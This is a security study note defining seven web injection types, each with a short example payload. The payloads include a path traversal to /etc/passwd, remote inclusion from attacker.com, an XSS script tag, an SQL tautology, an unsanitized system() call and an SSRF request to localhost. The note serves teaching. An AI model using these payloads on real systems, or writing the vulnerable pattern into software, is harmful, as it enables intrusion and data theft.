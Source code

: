 ```yaml
---
source: tcm
---
```

## What is an Injection?

**Injection** occurs when untrusted input is sent to a server-side interpreter (e.g., PHP, Bash, SQL, etc.) and is executed as part of a command or query.

- **Root Cause**: Improper handling or validation of user-supplied input.
    
- **Impact**: Code execution, data leakage, privilege escalation, server compromise.
    
- **Common Targets**: File paths, OS commands, database queries, HTML/JavaScript content, URLs.
    

---

## Injection Types

### 1. **Local File Inclusion (LFI)**

- **Definition**: Occurs when a web app allows users to include files from the local server's filesystem.
    
- **Impact**: Disclosure of sensitive files (e.g., `/etc/passwd`), pivoting.
    
- **Example**:
    
    ```
    page.php?file=../../../../etc/passwd
    ```
    

---

### 2. **Uploaded File Vulnerabilities**

- **Definition**: Occurs when the server accepts and stores user-uploaded files without proper validation.
    
- **Impact**: RCE, Privilege Escalation
    
- **Example**:
    
    - Uploading `shell.php`, then accessing it via:
        
        ```
        http://server/uploads/shell.php
        ```
        

---

### 3. **Remote File Inclusion (RFI)**

- **Definition**: The server includes files from remote URLs, allowing attacker-controlled external scripts to run.
    
- **Impact**: Phishing via fake pages.
    
- **Examples**:
        
    - Inject malicious JS:
        
        ```
        ?page=http://attacker.com/malicious.js
        ```
        

---

### 4. **Cross-Site Scripting (XSS)** 

- **Types**: Reflected, Dom-based and Stored XSS.

- **Definition**: Injection of malicious JavaScript into pages viewed by other users.
	    
- **Impact**: Session hijacking, keylogging, redirection, defacing.
    
- **Example**:
    
    ```
    ?msg=<script>alert('XSS')</script>
    ```
    

---

### 5. **Database Injections

- **Definition**: Inserting untrusted input into SQL queries without sanitization.
    
- **Impact**: Authentication bypass, data leakage, full DB compromise.
    
- **Example**:
    
    ```
    ' OR '1'='1
    ```
    

---

### 6. **Command Injection**

- **Definition**: Unsanitized input is passed directly to system-level commands (e.g., via `system()`).
    
- **Impact**: Remote Code Execution (RCE), full shell access.
    
- **Example**:
    
    ```php
    system($_POST["cmd"]);  // attacker sends: cmd=whoami
    ```
    

---

### 7. **Server-Side Request Forgery (SSRF)**

- **Definition**: The server makes HTTP requests on behalf of the attacker to internal services.
    
- **Impact**: Pivoting, Information Disclosure, Persistence.
    
- **Example**:
    
    ```
    ?url=http://localhost:8000/admin
    ```